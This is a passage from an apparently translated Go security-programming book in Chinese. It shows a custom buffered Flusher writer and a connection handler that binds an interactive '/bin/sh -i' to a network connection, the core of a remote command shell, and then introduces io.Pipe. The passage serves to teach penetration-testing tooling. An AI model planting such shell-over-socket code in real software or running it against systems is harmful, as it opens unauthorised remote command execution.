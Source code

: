 首先，调整代码以显式地强制刷新 stdout 来纠正此细微差别。 实现一个封装 bufio.Writer（缓冲写入器）的自定义 Writer，代替直接将 Conn 赋值给 cmd.Stdout，并且调用 Flush 方法强制排空缓冲区。有关 bufio.Writer 的示例用法，请参阅第35页的[“创建Echo服务”](ch2-tcp-scanners-and-proxies.md#创建Echo服务)。

下面是自定义的 writer， Flusher：

```go
// Flusher wraps bufio.Writer, explicitly flushing on all writes. 
type Flusher struct {
    w *bufio.Writer 
}
// NewFlusher creates a new Flusher from an io.Writer. 
func NewFlusher(w io.Writer) *Flusher {
    return &Flusher{
        w: bufio.NewWriter(w),
    } 
}
// Write writes bytes and explicitly flushes buffer. 
❶ func (foo *Flusher) Write(b []byte) (int, error) {
    count, err := foo.w.Write(b)❷
   if err != nil {
        return -1, err 
    }
    if err := foo.w.Flush()❸; err != nil { 
        return -1, err
    }
    return count, err
}
```

Flusher 实现了 Write\(\[\]byte\) 函数，将数据写入底层的缓冲写入器，然后排空输出。

完成自定义的 writer ， 就可以调整链接处理器实例化 Flusher 并赋值给 cmd.Stdout：

```go
func handle(conn net.Conn) {
    // Explicitly calling /bin/sh and using -i for interactive mode 
    // so that we can use it for stdin and stdout.
    // For Windows use exec.Command("cmd.exe").
    cmd := exec.Command("/bin/sh", "-i")
    // Set stdin to our connection 
    cmd.Stdin = conn
    // Create a Flusher from the connection to use for stdout.
    // This ensures stdout is flushed adequately and sent via net.Conn. 
    cmd.Stdout = NewFlusher(conn)

    // Run the command.
    if err := cmd.Run(); err != nil {
        log.Fatalln(err) 
    }
}
```

这种方案虽然可行，但不是很优雅。虽然能工作的代码比优雅的代码重要，但我们将以此问题来介绍 io.Pipe\(\) 函数，Go 的内存中同步管道，可用于连接 Readers 和 Writers ：
